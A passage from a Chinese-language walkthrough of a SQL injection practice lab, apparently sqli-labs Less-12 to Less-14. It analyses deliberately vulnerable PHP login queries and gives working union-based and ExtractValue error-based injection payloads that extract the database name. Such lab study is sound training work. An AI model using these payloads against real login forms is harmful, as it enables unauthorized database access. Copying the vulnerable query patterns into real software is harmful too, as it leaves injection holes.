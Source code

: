   ```
- POST 需闭合双引号括号

  ```
  $uname='"'.$uname.'"';
  $passwd='"'.$passwd.'"'; 
  @$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
  ```

  有回显信息

  ```
  echo 'Your Login name:'. $row['username'];
  ```

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 联合查询同Less-1 方便起见只查询数据库

  ```
  1") union select database(),2 --
  ```

​	![](/assets/images/12-1.png)

### Less-13

#### 1. 源码分析及漏洞利用

- POST：括号字符型

  ```
  @$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
  ```

  无任何回显信息

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 进行报错注入 方便起见只查询至数据库

  ```
  1') and ExtractValue('1',concat('~',database())) -- s
  ```

​	![](/assets/images/13-1.png)

### Less-14

#### 1. 源码分析及漏洞利用

- POST：需闭合双引号

  ```
  $uname='"'.$uname.'"';
  $passwd='"'.$passwd.'"'; 
  @$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
